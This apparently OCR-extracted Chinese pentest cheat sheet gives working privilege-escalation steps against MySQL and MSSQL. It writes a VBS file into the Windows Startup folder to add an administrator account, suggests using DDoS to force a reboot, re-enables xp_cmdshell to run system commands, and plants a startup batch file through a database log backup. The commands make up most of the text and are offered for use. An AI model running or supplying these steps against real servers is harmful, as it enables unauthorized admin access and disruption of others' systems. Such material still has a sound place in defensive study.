 在前两种方法都失败时,那可以试一下启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

提权条件
1. file_priv 不为 null
2. 已知 root 密码

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject (""wscript.shell"") " );
insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```

---

# MSSQL

**SA 提权**
1. 判断扩展存储是否存在:
    ```
    select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
    select count(*) from master.dbo.sysobjects where name='xp_regread'
    恢复:
    exec sp_dropextendedproc 'xp_cmdshell'
    exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
    EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
    ```

2. 列目录:
    ```
    exec master..xp_cmdshell 'ver'
    (or) exec master..xp_dirtree 'c:\',1,1
    (or) drop table black
    create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
    insert into black exec master..xp_cmdshell 'dir c:\'
    select top 1 mulu from black where id=1
    xp_cmdshell 被删除时,可以用(5.a)开启沙盒模式,然后(5.b)方法提权
    ```

3. 备份启动项:
    ```
    alter database [master] set RECOVERY FULL
    create table cmd (a image)
    backup log [master] to disk = 'c:\cmd1' with init
    insert into cmd (a) values (0x(batcode))
    backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
    drop table cmd
    ```
